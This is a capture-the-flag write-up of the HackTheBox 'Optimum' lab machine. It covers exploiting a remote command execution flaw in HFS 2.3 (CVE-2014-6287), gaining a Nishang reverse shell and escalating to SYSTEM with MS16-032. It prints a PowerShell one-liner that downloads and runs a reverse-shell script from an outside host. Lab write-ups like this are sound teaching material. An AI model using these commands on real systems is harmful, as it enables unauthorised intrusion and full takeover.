HackTheBox - Optimum Writeup
Table of Contents
Nmap
First, let’s scan the IP address by using the Nmap
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT STATE SERVICE REASON VERSION
80/tcp open http syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods:
|_ Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
Interesting, the only port open is 80 and the banner says HttpFileServer/HFS 2.3
HFS (HttpFileServer)
HTTP File Server, otherwise known as HFS, is a free web server specifically designed for publishing and sharing files. It’s different from classic file sharing because it uses web technology to be more compatible with today’s Internet. resource: wikipedia
I navigate to the port 80 through the web browser. WOW! it’s just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I’m writing this. Like always I’m asking google about this information and waiting for the result to come in.

CVE-2014-6287
Upon searching on the internet. I found this HFS version is vulnerable to RCE (remote command execution) and got assigned to a CVE-2014-6287. I also found this article with a payload sample.
CVE description: The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.
Burpsuite
I already have the payload sample and I’m gonna try it out with simple command. The command is whoami. First, I intercept the search endpoint with burpsuite. Then, send the request through the repeater and put the payload in the search query. However, it didn’t display any output from my whoami command. Then, I remembered about the ping command. So, I try to ping myself to see, if I get the connection through the box.


Nishang: Invoke-PowerShellTcp.ps1
The command runs successfully, with this information, I’m gonna try to gain a foothold on the box with nishang reverse shell script. Check this blog where I configure the reverse shell script.
First, I created a new directory called www and put the reverse shell script in the same directory. Then, I’m hosting the python web server in port 80 and run the nc listener with rlwrap since this is a Windows machine. Back to the burpsuite, I use this payload, which is downloading the reverse shell script and executing it. Don't forget the (dot) at the end.



NICE!. Finally, I’m in as a kostas user. Since this is an old machine from HacktheBox, I’m gonna assume they are plenty of exploits on the internet waiting to be found. Well, I’m going to check this machine system with the systeminfo command first.

MS16-032 : CVE-2016-0099
This is a Windows Server 2012R2 version 6.3.9600 N/A Build 9600 and the architecture type is 64 bit. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I’m gonna abuse the Secondary Logon Service to gain the SYSTEM shell that is dubbed as MS16-032 or CVE-2016-0099.
EmpireProject: Invoke-MS16032.ps1
I manage to find this exploit in the exploit-db. However, the exploit itself didn’t work in my case because it’s open the cmd through GUI and I don’t have access to the GUI instance. Luckily, I found the powershell exploit that allows me to privesc from the EmpireProject.
Empire is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects.
resource: EmpireProject github
So, I’m gonna download it with the wget command. Then, edit the file by putting the example in the last line also edit the URL to point into my python server with another reverse shell called yeet.ps1
Note: the example start with Invoke-MS16-032. However, the function is named Invoke-MS16032



Windows: sysnative
I tried a bunch of times to run this exploit but the result is nothing. This machine is 64 bit and also the exploit is tested on a 64 bit 2k12R2 server. Now, I’m dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I check, and it’s confirmed. The powershell is running on 32 bit.


With quick googling, I found this answer on stackoverflow. I need to run the powershell in the sysnative directory to get the 64 bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with nc.
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
When I checked the powershell architecture indeed it is running on 64 bit. YES!!!

Windows: Privilege Escalation
Now, I’m executing the privesc exploit once again. My python server shows the request from the file called Invoke-MS16032.ps1 followed with yeet.ps1 and finally, I’ve got a shell as system.
